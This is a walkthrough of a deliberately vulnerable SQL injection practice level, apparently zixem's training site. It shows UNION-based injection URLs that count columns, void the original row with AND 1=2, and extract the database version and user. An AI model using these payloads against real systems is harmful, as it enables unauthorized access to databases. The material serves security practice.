 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
    Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`
  > - **Item ID:** 1
  > - **Price:** 20$

  => I guess the Query can be:
  `SELECT * FROM <db> WHERE id=1`
  => We should add `UNION SELECT 1,2;--`
    Result:
  `https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
  > - The used SELECT statements have a different number of columns**Item ID:**
  > - **Price:** $

  => So it doesn't have 2 columns, let's try again with more to see if the error still exist
    Result:
  `https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
  > - **Item ID:** 1
  > - **Price:** 20$

  => But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.
    Result:
  `https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
  > - **Item ID:** 2
  > - **Price:** 1$

    Ok let's extract *version()* and *user()*:
    Result:
  `https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
  > - **Item ID:** zixem@localhost
  > - **Price:** 5.6.33-log$
  => Bazinga!
